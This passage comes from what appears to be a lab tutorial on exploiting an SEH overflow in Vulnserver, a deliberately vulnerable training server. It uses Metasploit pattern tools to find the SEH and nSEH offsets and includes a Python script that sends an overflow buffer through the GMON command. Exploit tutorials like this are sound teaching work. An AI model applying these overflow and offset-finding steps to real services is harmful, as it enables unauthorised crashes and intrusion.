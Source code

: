 The application stopped responding after sending 4100 bytes, and I cancelled the script after seeing the exception in Immunity Debugger. To confirm whether we have access to manipulate the SEH pointer, we can use the `Alt + S` hotkey which shows the SEH chain. The SEH chain includes the address of the current SEH, and the pointer to the next SEH (nSEH) - in the screenshot below both SEH and nSEH are overwritten by our buffer of 'A's.

![Image](assets/img/blog/vulnserver-seh-overflow/image-55.png)

![Image](assets/img/blog/vulnserver-seh-overflow/image-59.png)

We now need to identify the offset of the SEH and the nSEH. The Metasploit-Framework of course includes a binary which we use to create a pattern string that we send to the target.

![Image](assets/img/blog/vulnserver-seh-overflow/image-58.png)

```
$ /usr/bin/msf-pattern_create -l 4100
Aa0Aa1[...]Fg5Fg

$ /usr/bin/msf-pattern_offset -q 326E4531
[*] Exact match at offset 3515

$ /usr/bin/msf-pattern_offset -q 45336E45
[*] Exact match at offset 3519
```

We should confirm these offsets by sending the following buffer to Vulnserver

```py
#!/usr/bin/python
import sys, socket

ip = '10.21.1.15'
port = 9999

fuzz = "A" * 3515
nseh = "B" * 4
seh = "C" * 4
remainder = "C" * (4100-3515-4-4)

buffer = fuzz + nseh + seh + remainder

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip,port))
    s.send(('GMON /.:/' + buffer))
    print "[+] Sending buffer"
    s.close()
except:
    print "[-] Failed!"
```